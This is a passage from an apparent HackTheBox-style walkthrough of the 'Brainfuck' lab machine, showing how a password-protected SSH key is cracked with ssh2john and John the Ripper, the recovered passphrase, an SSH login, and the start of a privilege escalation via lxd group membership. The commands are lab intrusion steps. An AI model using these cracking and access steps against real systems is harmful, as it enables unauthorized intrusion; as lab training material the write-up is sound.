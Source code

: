 ![cipher](https://github.com/codetantrum/walkthroughs/blob/master/Brainfuck/images/Pasted%20image%2020211111195735.png)

Browse to the link and download the key. It is password protected. 
```
┌──(code㉿kali)-[~]
└─$ ssh orestis@10.10.10.17 -i orestis 
The authenticity of host '10.10.10.17 (10.10.10.17)' can't be established.
ED25519 key fingerprint is SHA256:R2LI9xfR5z8gb7vJn7TAyhLI9RT5GEVp76CK9aoKnM8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.17' (ED25519) to the list of known hosts.
Enter passphrase for key 'orestis': 
orestis@10.10.10.17: Permission denied (publickey).

```

It can be unlocked with John the Ripper as follows.
```
┌──(code㉿kali)-[~]
└─$ wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py

Saving to: ‘ssh2john.py’

ssh2john.py                         100%[================================================================>]   8.34K  --.-KB/s    in 0.004s  

2021-11-11 22:19:02 (2.28 MB/s) - ‘ssh2john.py’ saved [8537/8537]

┌──(code㉿kali)-[~]
└─$ python ssh2john.py orestis > orestis.hash

┌──(code㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt orestis.hash 

3poulakia!       (orestis)

```

SSH into server as orestis

user.txt

![user.txt](https://github.com/codetantrum/walkthroughs/blob/master/Brainfuck/images/Pasted%20image%2020211111222306.png)

# Privilege Escalation

Find encrypt.sage in /home/orestis; looks like a script to encrypt the root.txt file, but wouldn't escalate our privileges. Skip for now. 

Orestis is a member of the lxd group.
```
orestis@brainfuck:~$ id
uid=1000(orestis) gid=1000(orestis) groups=1000(orestis),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),121(lpadmin),122(sambashare)

```
